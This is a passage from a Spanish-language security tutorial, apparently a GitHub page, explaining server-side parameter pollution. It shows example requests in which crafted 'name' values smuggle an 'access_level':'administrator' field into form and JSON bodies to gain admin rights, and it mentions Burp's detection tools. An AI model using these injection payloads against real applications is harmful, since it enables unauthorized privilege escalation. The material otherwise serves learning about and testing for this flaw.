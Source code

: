 _Del lado del servidor_

```json
PATCH /users/7312/update
{"name":"peter"}
```

_Ahora nosotros podemos intenar añadir `access_level`_

```json
POST /myaccount
name=peter","access_level":"administrator
```

_Si esto resulta funcionar y podemos añadirlo el servidor lo interpertaría así_

```json
PATCH /users/7312/update
{name="peter","access_level":"administrator"}
```

_Con esto peter consigue acceso a Administrador_

### Estructura JSON

_Ahora vamos a suponer que el navegador se comunica con estructuras JSON, nuestro navegador hace esta solicitud._

```json
POST /myaccount
{"name": "peter"}
```

_El servidor lo interpretaría de esta manera._

```json
PATCH /users/7312/update
{"name":"peter"}
```

_Ahora vamos a intenar agragar el `access_level`_

```json
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```

_Ahora el servidor debería de interpretarlo de la siguiente manera:_

```json
PATCH /users/7312/update
{"name":"peter","access_level":"administrator"}
```

_Ahora peter recibe privilegios de Administrador._

## Server-side parameter pollution automatizado

_Burp incluye herramientas automatizadas que pueden ayudarle a detectar vulnerabilidades de contaminación de parámetros del lado del servidor._
